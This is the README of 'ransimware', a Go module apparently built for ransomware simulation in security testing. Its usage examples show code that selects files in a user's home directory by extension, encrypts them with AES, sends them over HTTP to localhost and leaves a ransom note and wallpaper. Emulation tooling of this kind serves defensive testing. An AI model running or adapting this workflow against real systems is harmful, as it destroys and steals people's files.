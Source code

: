 # Ransimware

[![Yum](https://img.shields.io/badge/-Buy%20me%20a%20cookie-blue?labelColor=grey&logo=cookiecutter&style=for-the-badge)](https://www.buymeacoffee.com/mjwhitta)

[![Go Report Card](https://goreportcard.com/badge/github.com/mjwhitta/ransimware?style=for-the-badge)](https://goreportcard.com/report/github.com/mjwhitta/ransimware)
![License](https://img.shields.io/github/license/mjwhitta/ransimware?style=for-the-badge)

## What is this?

This Go module allows you to simulate ransomware. Use
https://ransomlook.io for ideas on domains and IOCs.

## How to install

Open a terminal and run the following:

```
$ go get -u github.com/mjwhitta/ransimware
```

## Usage

Minimal example:

```
package main

import (
    "os"
    "path/filepath"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Since no encrypt function is defined, the default behavior is
    // to do nothing

    // Since no exfil function is defined, the default behavior is to
    // do nothing

    // Since no notify function is defined, the default behavior is to
    // do nothing

    // Target the user's Desktop directory
    if e = sim.Target(filepath.Join(home, "Desktop")); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

More complex example:

```
package main

import (
    "os"
    "path/filepath"
    "strings"

    rw "github.com/mjwhitta/ransimware"
)

func main() {
    var e error
    var home string
    var sim *rw.Simulator

    // Try to get home directory
    if home, e = os.UserHomeDir(); e != nil {
        panic(e)
    }

    // Create simulator with 32 worker threads
    sim = rw.New(32)

    // Include interesting extensions
    sim.Include(`\.(avi|mkv|mov|mp[34]|mpeg4?|ogg|wav)$`) // vids
    sim.Include(`\.(bmp|gif|ico|jpe?g|png|tiff)$`)        // imgs
    sim.Include(`\.(docx|pptx|txt|xlsx|zip)$`)            // docs
    sim.Include(`\.(bat|ps1|xml)$`)                       // misc

    // Ignore directories
    sim.Exclude(`All\sUsers|AppData.Local|cache2.entries|Games`)
    sim.Exclude(
        `Local\sSettings|Low.Content\.IE5|Program(Data|\sFiles)`,
    )
    sim.Exclude(`Tor\sBrowser|User\sData.Default.Cache|Windows`)

    // Ignore AnyConnect cache/config
    sim.Exclude(`\.cisco|Cisco`)

    // Ignore extensions
    sim.Exclude(`\.(bin|dll|exe|in[fi]|lnk|ransimware|sys)$`)

    // Set encryption method to AES using provided helper function
    sim.Encrypt = rw.AESEncrypt("password")

    // Set exfil method to be HTTP using provided helper function
    sim.Exfil, e = rw.HTTPExfil(
        "http://localhost:8080",
        map[string]string{
            "User-Agent": strings.Join(
                []string{
                    "Mozilla/5.0 (Windows NT 10.0; Win64; x64)",
                    "AppleWebKit/537.36 (KHTML, like Gecko)",
                    "Chrome/84.0.4147.105 Safari/537.36",
                },
                " ",
            ),
        },
    )
    if e != nil {
        panic(e)
    }

    // Notify user by changing wallpaper and leaving a ransom note,
    // using the provided helper functions
    sim.Notify = func() error {
        rw.RansomNote(
            filepath.Join(home, "Desktop", "ransomnote.txt"),
            "This is a ransomware simulation.",
        )()

        rw.WallpaperNotify(
            filepath.Join(home, "Desktop", "ransom.png"),
            rw.DefaultPNG,
            rw.DesktopStretch,
            false,
        )()

        return nil
    }

    // Target the user's home directory
    if e = sim.Target(home); e != nil {
        panic(e)
    }

    // Run the simulator
    if e = sim.Run(); e != nil {
        panic(e)
    }
}
```

## Links

- [Source](https://github.com/mjwhitta/ransimware)

## TODO

- Provide more helper functions
    - FTP exfil
